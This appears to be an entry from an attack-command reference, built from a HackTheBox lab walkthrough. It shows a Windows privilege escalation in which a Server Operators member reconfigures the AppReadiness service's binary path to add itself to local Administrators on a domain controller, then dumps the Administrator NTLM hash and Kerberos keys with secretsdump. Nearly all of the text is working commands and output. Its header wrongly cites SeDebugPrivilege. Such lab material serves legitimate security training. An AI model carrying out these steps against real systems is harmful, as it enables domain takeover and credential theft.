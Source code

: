 ---
description: |
  The Server Operators group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful SeBackupPrivilege and SeRestorePrivilege privileges and the ability to control local services.

  Command Reference:

      Target: Local Windows machine with SeDebugPrivilege


command: |
  sc qc AppReadiness

code: |
  Querying the AppReadiness Service

Let's examine the AppReadiness service. We can confirm that this service starts as SYSTEM using the sc.exe utility.
Server Operators

C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

Checking Service Permissions with PsService

We can use the service viewer/controller PsService, which is part of the Sysinternals suite, to check permissions on the service. PsService works much like the sc utility and can display service status and configurations and also allow you to start, stop, pause, resume, and restart services both locally and on remote hosts.
Server Operators

C:\htb> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All

This confirms that the Server Operators group has SERVICE_ALL_ACCESS access right, which gives us full control over this service.
Checking Local Admin Group Membership

Let's take a look at the current members of the local administrators group and confirm that our target account is not present.
Server Operators

C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.

Modifying the Service Binary Path

Let's change the binary path to execute a command which adds our current user to the default local administrators group.
Server Operators

C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS

Starting the Service

Starting the service fails, which is expected.
Server Operators

C:\htb> sc start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

Confirming Local Admin Group Membership

If we check the membership of the administrators group, we see that the command was executed successfully.
Server Operators

C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.

Confirming Local Admin Access on Domain Controller

From here, we have full control over the Domain Controller and could retrieve all credentials from the NTDS database and access other systems, and perform post-exploitation tasks.
Server Operators

0xm3m@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)

Retrieving NTLM Password Hashes from the Domain Controller
Server Operators

0xm3m@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrator:aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrator:des-cbc-md5:d60dfbbf20548938
[*] Cleaning up...


items:
  -
services:
  -
OS:
  - Windows
attack_types:
  - Enumeration
  - PrivEsc
references:
  - 
